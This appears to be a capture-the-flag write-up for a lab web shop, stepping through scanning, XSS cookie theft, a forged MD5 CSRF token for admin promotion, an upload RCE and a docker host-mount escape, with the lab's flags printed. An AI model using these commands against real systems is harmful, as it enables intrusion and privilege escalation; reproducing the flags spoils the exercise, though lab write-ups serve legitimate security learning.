

# Sequence

### Nmap Scan

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8a:4f:54:6d:fc:b7:3b:52:09:cf:06:15:77:8b:54:eb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDCd2A79QPTmnzmczFvCMvSao/pFwGR0ohbmB3bBsoT4kRrMk7pNSl+6WO0fCpDA+51U+oqa5muBWuWrx5Q5fRW0Cws7yvgs5U1Gg7vVEN6OA+Z6h53OiBko6zxYyCBTT83MeQtx/LV7TdIgmPaeo+I6LlWQMLh7Fteqh23cq0hLHYZ8giZb3oGKUcm/+RjUgWBrZA9PrtKmhgB+KBBct2Yb1c7xoUA3tGuOdgxgQZlyrrNi0s7v57M84t/TgeqDnbyd+40m2+ckjcMO+XwNDoGqPE+mKjFV6PFLuKDJ8bKfpC1PWF94NUz8CjBsFoXB7WO+xi6C5/3fL0b8zIjQcMyIfVrklCnmNaEs+Ax+DxXRS7Eucgj9EqggcsVsVfTIpuTtO21/CEXgxSDbJl3po3Yfyvx4pxAWe/ukfOyuxuHY1HzBAUMfauZlxFoE+VYtoZ4CMqCZR1VWeFZxEI4IZyM5C8ECHSpu3xShwn/75Xcmk0eSZ2CfHTTevKphdQkwjU=
|   256 73:61:aa:ed:00:26:88:e7:f8:49:ea:2a:4e:a2:34:01 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFKqf0W9VosJ3yGL+RErGStvyJnPs6KtVcf9cupwBuzOuxWebHtnm2Tnini5WNxTrUsK3XndDQ6Yh+gT06QPuGM=
|   256 6e:60:83:66:85:69:e8:95:4d:bf:87:53:d0:4c:f6:12 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDTBclUi+O/psCMi4DpOLeuwK7/UWtPzHPQzphjS6tH7

80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Review Shop
```

---

### Website


---

### Directory Enumeration  → Gobuster

```bash
gobuster dir --url http://10.10.17.80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
```

- During a Gobuster scan, a `/mail` directory was identified. accessing the directory, a file named `dump.txt` was found, which appears to contain a mail.

```
From: software@review.thm
To: product@review.thm
Subject: Update on Code and Feature Deployment

Hi Team,

I have successfully updated the code. The Lottery and Finance panels have also been created.

Both features have been placed in a controlled environment to prevent unauthorized access. The Finance panel (`/finance.php`) is hosted on the internal 192.x network, and the Lottery panel (`/lottery.php`) resides on the same segment.

For now, access is protected with a completed 8-character alphanumeric password (S60u}f5j), in order to restrict exposure and safeguard details regarding our potential investors.

I will be away on holiday but will be back soon.

Regards,  
Robert
```

---

### Session Hijacking via XSS → `/contact.php`

- The **`/contact.php`** endpoint is vulnerable to a **Cross-Site Scripting (XSS)** attack.
- This vulnerability can potentially be **exploited for session hijacking**, allowing an attacker to impersonate legitimate users by stealing their session cookies.

> **Payload**
> 

```
test
```

1. Started a **Python server** to capture incoming traffic and cookies.

```bash
python3 -m http.server 80
```


1. Replaced session cookie with the captured one to impersonate a user mod.



> **First Flag:**
> 

```
THM{M0dH@ck3dPawned007}
```

---

### Broken Access Control

- The `/settings.php` panel includes an option to promote a user to co-admin.
- This functionality can potentially be exploited to gain administrative access through user modification.

***Step 1: Update the mod user role to co-admin***


***Step 2: Modify the `csrf_token_promote` to get a admin access.*** 

- The `csrf_token_promote` is simply an MD5 hash of the username.
- We can replace the MD5 hash with the hash of the username **admin**.

```bash
echo -n 'admin' | md5sum 
```

**Step 3: Changing user privileges through chat input**


```
http://review.thm/promote_coadmin.php?username=mod&csrf_token_promote=21232f297a57a5a743894a0e4a801fc3
```


> **Note:** Change the password, then logout and back in to retrieve the admin flag.
> 

> **Second Flag:**
> 

```
THM{Adm1NPawned007}
```

---

### Remote Code Execution

- we can change the `lottery.php`  to `finance.php`


- Authenticate using the password recorded in `dump.txt`.
- We can exploit the upload feature to get RCE.


- **Docker Container**


---

### Chroot Escape with Docker

> **Reference:** [https://exploit-notes.hdks.org/exploit/container/docker/docker-escape/](https://exploit-notes.hdks.org/exploit/container/docker/docker-escape/)
> 
- we found a Docker images running, we can use it to get a another root shell.

```bash
docker image ls 
```


```bash
docker run -v /:/mnt --rm -it php:8.1-cli bash 
```

> **To retrieve the flag, we need to upgrade the shell to a fully interactive TTY using Python.**
> 


> **Third Flag:**
> 

```
THM{rootAccessD0n3}
```